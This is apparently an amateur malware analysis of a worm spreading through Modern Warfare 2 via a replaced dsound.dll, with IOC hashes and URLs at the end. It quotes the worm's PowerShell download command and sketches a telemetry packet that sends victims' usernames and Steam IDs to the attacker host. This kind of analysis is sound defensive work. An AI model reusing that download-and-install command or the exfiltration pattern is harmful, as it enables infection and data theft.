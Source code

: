 # Call of Duty: Modern Warfare 2 (2009) Worm
---
I saw an article regarding a new worm spreading via Call of Duty: Modern Warfare 2. Link [here](https://www.techspot.com/news/99573-hackers-infecting-modern-warfare-2-players-self-spreading.html)

I haven't seen any analysis write-ups on it yet so I wanted to take a look at it myself despite not really knowing much on game hacking.
---

## Obtaining Samples
I looked at some of the Steam Forum [posts](https://steamcommunity.com/app/10190/discussions/0/3810656756190466074/?ctp=2#c3800524658154744558) and someone identified some strings located in the binary. Additionally, they mentioned the file that gets infected or replaced by the worm: dsound.dll. Others also mentioned the classified name they were alerted on by their anti-virus: Trojan/Win32: Wacatac.B!ml

Using this info, I managed to find a number of samples on VirusTotal.

---

## Analysis

Due to the file being a DLL, I looked at the exports first. There weren't any blatantly malicious export names like "SpreadWorm" but there were two that caught my eye. DirectSoundCaptureCreate8 and DirectSoundCreate8 are weird. Why would Infinity Ward name exports these? I'm sure if I reinstalled MW2 and looked at the original DLL, these wouldn't exist.

![Exports](Pictures/codmw2-exports.png)

When I initially dove into these, DirectSoundCaptureCreate8 didn't have anything blatantly malicious looking. However, DirectSoundCreate8 did. I saw a number of strings that looked to be obfuscated and then I noticed the string: ```User was randomly selected to be a spreader in modded lobbies.\n```

![spreaderString](Pictures/codmw2-spreaderString.png)

I then worked on deobfuscating the strings. This was surprisingly easy because it was a simple rotation cipher. The rotation amount varied per string but this was easily solved with CyberChef just by clicking the up or down arrow in the ROT13 recipe. I didn't feel like completely reversing the string obfuscation.

Below are some of the deobfuscated strings.

![deobfuscatedStrings](Pictures/codmw2-deobfuscatedStrings.png)

These are all related to downloading a file from the internet. After a little more reversing it seems like these APIs are responsible for downloading updated versions of the worm and saving it as dsound1.dll and then moving the file to dsound.dll.

![wormUpdate](Pictures/codmw2-downloadUpdate.png)

Taking a look at other deobfuscated strings, particularly URLs, I identified the initial connection routine. It appears to craft a packet to ```http://www[.]shinyware[.]systems/telemetry``` containing information about the victim. Specifically the username, Steam ID, cpu, and Windows version.
Below is an example packet. Keep in mind that this is purely from code analysis and could be slightly incorrect. I didn't want to reinstall MW2 nor did I want to infect anyone else while playing.
```
POST /telemetry
Host: www[.]shinyware[.]systems
Content-Type: application/x-www-form-urlencode
Data:
username=fakeuser&steamID=110191&cpu=Intel_i7&gpu=AMD_Radeon_6700&winver=Windows10
```

This is all pretty basic malware stuff but my biggest question is how is this spreading from player to player? So I began looking at RCE vulnerabilities for MW2. Surprisingly, I found a couple. This also made me a bit concerned about my younger self's PC after experiencing a few hacked lobbies. Eventually, in the rabbit hole, I discovered [this](https://github.com/BlastsMods/JoinPartyRCE/tree/master).

As I started diving into the source code I found the main exploit string.

![exploitString](Pictures/codmw2_exploitString.png)

This is extremely similar to a string within the worm-infected dsound.dll file.

![exploitDLL](Pictures/codmw2-exploitDLL.png)

I haven't really gone down the game-hacking rabbit hole so I'm not sure exactly how this JoinParty RCE works other than it's supposedly a buffer overflow that leads to RCE. It looks like it was originally designed for hacked lobbies to give everyone cheats. See the se7en sins [post](https://www.se7ensins.com/forums/threads/release-mw2-rce-menu-tu9.1771186/).

It looks like the author of this malware modified it to instead perform a Powershell command to download the worm. The Powershell command was obfuscated in the code:

```powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://www[.]shinyware[.]systems/dsound.dll', 'dsound.dll') "```

From my quick analysis of the binary, I'm not really sure of the main point of the worm. I'm not sure if it's used to spread additional malware, create a botnet for DDoS, remote access to victims, pure chaos, etc. However, I did find this Youtube [video](https://www.youtube.com/watch?v=9aAiIHY5B20) of what looks to be the worm in action. I say that because in the comments of the video it states "it was shiny's worm actually" and there's a string in the binary that states "get cucked by shiny" who is theoretically the author of the worm.

Again, I didn't want to spend a ton of time on this because I have higher-priority projects but this was a fun little analysis to do. If anyone else takes a deep dive, especially into the RCE itself please send it my way because I'd be very interested.

---

## IOCs
Hashes (SHA256):
- 26e2fa19d21b312337e06271ad00b14f8b15123779c6c96e7b2526e11070d1d4
- 20a7b7e215784b6dec17f75632e966985c63d97af1a94f7813fe120d4882a36a
- ee76423a6fd8a5ea13c14dda646baf9c957b6d4f126d358c47ac3a08ed0355b7
- cf013939eb5ac2a8c698868d0fdcbde950351c0db6fd932cdf9970d7b3376163
- a0ee880294af310d284fc177d5d9e01c4822701cc4a36c90c1dd4405ad175a35
- 9f06583803b78b1319093a2fde7304c4b3db2ecaabda846512e467740a177aa0
- bf69163328382717689382e69221d05c64302a391b4e48c0c148e299c056279e
- 86471038d536897fd254648f964c342d9f126953c90948d5bddec931f86d5a79
- ca537f4fdb9403718e6a9c2422a0efa94e3ec04aefd199b7008cc7cfcb11dd2e
- 8d4218da477d68c450a058fbcca3c46a2044e772a56de86aa3540ea669fa0d00
- 4e3f6d9f80805f389c8da8654e544144f56a4b77b4c6a38ac71ec0c487ac96f4
- 67351a25307b2f386fc35c134a5eb61b5354883eed7f284f8ab05e9783b63072
- ecc2e51f37fa0a390deac423736e7f18776a1d58798ded78a4402517fb9b4113
- 8f45a6615851789a51e97f4f103303bf7e643007a946bcd4fb16f1f33a3a0d54
- cb000abed31b92b4f3f895a633ef0ffaf01a1be0dfc73619acf98c1605a5999d
- f78d1f1e336202bf1b5ec09b37e06b01074216d55d73fa9555c7aba769cf54e1

Filename: dsound.dll

URLs:
- http://www[.]shinyware[.]systems/telemetry
- http://www[.]shinyware[.]systems/blocked[.]txt
- http://www[.]shinyware[.]systems/dsound[.]dll
